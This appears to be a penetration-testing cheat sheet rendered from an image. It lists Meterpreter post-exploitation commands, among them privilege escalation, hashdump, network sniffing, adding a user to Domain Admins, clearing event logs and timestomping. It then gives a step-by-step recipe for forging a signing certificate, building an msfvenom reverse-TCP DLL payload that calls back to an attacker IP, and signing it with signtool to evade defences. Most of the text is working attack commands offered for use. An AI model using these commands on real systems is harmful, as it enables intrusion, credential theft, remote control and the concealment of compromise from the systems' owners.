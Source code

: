 `getprivs`
Get as many privileges as possible on the target.

`uictl enable <keyboard/mouse>`
Take control of the keyboard and/or mouse.

`background`
Run your current Meterpreter shell in the background.

`hashdump`
Dump all hashes on the target. use sniffer Load the sniffer module.

`sniffer_interfaces`
List the available interfaces on the target.

`sniffer_dump <interfaceID> pcapname`
Start sniffing on the remote target.

`sniffer_start <interfaceID> packet-buffer`
Start sniffing with a specific range for a packet buffer.

`sniffer_stats <interfaceID>`
Grab statistical information from the interface you are sniffing.

`sniffer_stop <interfaceID>`
Stop the sniffer.

`add_user <username> <password> -h <ip>`
Add a user on the remote target.

`add_group_user <"Domain Admins"> <username> -h <ip>`
Add a username to the Domain Administrators group on the remote target.

`clearev`
Clear the event log on the target machine.

`timestomp`
Change file attributes, such as creation date (antiforensics measure).

`reboot`
Reboot the target machine.

### Creating a signed meterpreter payload with Forgery and Signtool
#### Use Forgery3 to create .crt and .key files
```Shell
python3 forgery3.py password
```
#### Create .pfx with openssl using .key, and .crt files
```Shell
openssl pkcs12 -export -out certificate.pfx -inkey thisisatest.com_CA.key -in thisisatest.com_CA.crt
```
#### Create msfvenom payload
```Shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.214 LPORT=443 -f dll > backupscript.dll
```
#### Move it to the share (or some other way of accessing a windows host)
#### Use signtool to sign the payload
```cmd.exe
cd "C:\Program Files (x86)\Microsoft SDKs\ClickOnce\SignTool"
```

```cmd
.\signtool.exe sign /f "C:\share\6-Payloads\certificate.pfx" /p "password" /td SHA256 /fd SHA256 "C:\share\6-Payloads\backupscript.dll"
```
